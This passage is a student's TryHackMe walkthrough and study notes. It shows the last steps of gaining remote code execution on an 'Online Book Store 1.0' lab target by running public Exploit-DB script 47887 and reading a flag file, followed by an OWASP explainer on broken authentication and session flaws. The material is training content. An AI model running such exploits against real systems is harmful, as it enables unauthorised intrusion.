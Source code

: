 
## 🚀 Step 4: Run Exploit on Target
Execute the exploit with the vulnerable application URL.
```
python3 47887.py http://10.201.83.106:84
```
This should give you **Remote Code Execution (RCE)** on the server.

---

## 📂 Step 5: Retrieve the Flag
Once inside the server / RCE prompt, read the flag file:
```
cat /opt/flag.txt
```
Copy the flag and submit it on TryHackMe.

---

## ✅ Summary
- Vulnerable app: **Online Book Store 1.0**
- Vulnerability: **Unauthenticated RCE**
- Exploit used: **Exploit-DB ID 47887**
- Flag file location: **/opt/flag.txt**
---
# Broken Authentication & Session Management (OWASP Top 10)

## 🔑 Simple Meaning
- **Authentication** = Process of verifying user identity (usually username + password).  
- **Session Management** = Keeping track of logged-in users using **session cookies**.  
- HTTP(S) is **stateless**, so without cookies the server cannot remember users.  

---

## ⚡ How It Works
1. User enters **username + password**.  
2. Server verifies credentials.  
3. If correct → server gives browser a **session cookie**.  
4. Browser attaches cookie in every request → server knows who is sending data.  

---

## 🚨 Common Authentication Flaws
- **Brute Force Attacks** → Attacker tries many username/password combos.  
- **Weak Credentials** → If weak passwords allowed (`password1`, `123456`), attacker can easily guess.  
- **Weak Session Cookies** → If cookies have predictable values, attacker can create fake cookies and hijack accounts.  

---